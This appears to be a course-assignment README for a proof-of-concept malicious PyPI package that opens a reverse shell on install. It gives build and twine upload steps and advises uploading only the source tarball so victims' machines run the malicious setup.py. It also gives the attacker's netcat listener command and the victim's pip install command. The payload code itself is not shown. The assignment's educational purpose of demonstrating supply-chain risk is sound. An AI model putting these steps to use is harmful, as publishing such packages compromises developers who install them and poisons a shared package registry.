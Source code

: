 # Explanation:

This is Simple Python Reverse Shell module. It is a poc of how attackers can exploit `pip install` by publishing a crafed malicious package to Pypi. For CMPT785 course assignment2.



### Build the package:

1. Install the package build process dependencies

​	`python -m pip install --user --upgrade setuptools wheel twine`

2. cd to the directory of setup.py, use this command to build the package

​	`python setup.py sdist bdist_wheel`

3. After build, remember either remove the `.whl` file from `/dist` folder or during the upload process, only upload the `.tar.xz` one. The reason is that we want victims' to build the package themselves in order to get the malicious code execute on victims' machine.  

​	`twine upload dist/*.tar.xz`

4. It will prompt you to enter your username and password in Pypi.org



### Simulate the attack:

Two terminal windows. (If two machines, change the code in setup.py)

Attacker: Listen on 1234 port with netcat`nc -lvp 1234`

Victim: Execute pip install command`pip install pip-remote-access`

We can see in attacker's window, it gets a reverse shell estatblished.
